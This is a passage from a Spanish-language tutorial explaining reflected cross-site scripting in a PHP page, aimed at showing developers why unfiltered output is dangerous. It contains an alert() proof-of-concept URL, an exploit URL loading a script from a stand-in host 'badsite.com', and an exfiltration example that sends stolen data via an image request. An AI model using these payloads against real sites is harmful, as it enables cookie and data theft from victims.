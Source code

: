 Entonces, ¿por qué se trata de una vulnerabilidad XSS? La forma en que funciona el código anterior es que toma un valor de la URL y lo vuelve a escribir en el navegador, sin validar ni filtrar. Si su aplicación está alojada en [https://example.com/test.php](https://example.com/test.php), un visitante del sitio podría visitar la siguiente URL:

> https://ejemplo.com/test.php?val=123

Luego verán: "El valor que ingresó es: 123" en su navegador. Probablemente la forma en que se diseñó la aplicación para funcionar.

Si alguien visita la siguiente URL:

> https://example.com/test.php?val=<script>alert('Prueba que esto es un XSS');</script>

Verán lo siguiente en el navegador: "El valor que ingresó es:" y también verán un cuadro de alerta emergente que dice "Prueba que esto es un XSS".

### ¿Por qué es peligrosa la salida sin filtrar?

Una demostración que muestra un cuadro de alerta no parece una gran amenaza. Si no comprende completamente el impacto de una vulnerabilidad XSS y alguien le informa este problema con un cuadro de alerta() como demostración de la vulnerabilidad, es posible que no se lo tome en serio. ¿Cómo puede la prueba de que puede ejecutar JavaScript ser una prueba de un problema de seguridad grave?

Cuando un analista le envía un cuadro de alerta () como prueba de una vulnerabilidad de seguridad, está demostrando que puede ejecutar código JavaScript arbitrario en el navegador. Lo que realmente están demostrando es que al enviar esa URL a otra persona, pueden lograr que esa otra persona ejecute javascript arbitrario en un navegador.

### **Una versión de un exploit podría verse así:**

[https://example.com/test.php?val=<script](https://example.com/test.php?val=%3cscript) src=”http://badsite.com/badscript.js”></script>

El atacante enviará ese enlace a una víctima. Los pasos son los siguientes:

- La víctima hace clic en el enlace y visita el sitio. Supongamos que ya han iniciado sesión en el sitio web con acceso de nivel de administrador.
- El enlace y la vulnerabilidad XSS hacen que el script se cargue desde un sitio web externo a la página web de destino.
- El script tendrá acceso completo al entorno DOM del navegador, incluida cualquier cookie HTTP que no esté protegida por el indicador HttpOnly.
- El script realiza una acción maliciosa como usuario que ha iniciado sesión. También roba datos del sitio web al que puede acceder el usuario que ha iniciado sesión (por ejemplo, mensajes privados que el usuario ha recibido) y los envía al atacante. Los datos se pueden enviar de varias maneras, pero una podría ser cargar una imagen como esta desde un sitio web externo: [http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues](http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues). badPretendImage.jpg es en realidad un script que muestra una imagen pero también almacena los datos recibidos.

Ese es el mecanismo básico de explotación de una vulnerabilidad XSS: un atacante encuentra una manera de hacer que una víctima cargue su javascript utilizando una vulnerabilidad XSS en el sitio web. Lo usan para robar datos de los navegadores.

En el ejemplo anterior, hemos cargado un archivo javascript externo en la página. Las vulnerabilidades XSS varían y, para una vulnerabilidad particular, puede que no sea factible incluir etiquetas <SCRIPT> que carguen un script externo completo. Si eso no funciona, lo que podría funcionar es agregar javascript directamente en el exploit que se ejecuta y realiza alguna acción maliciosa.
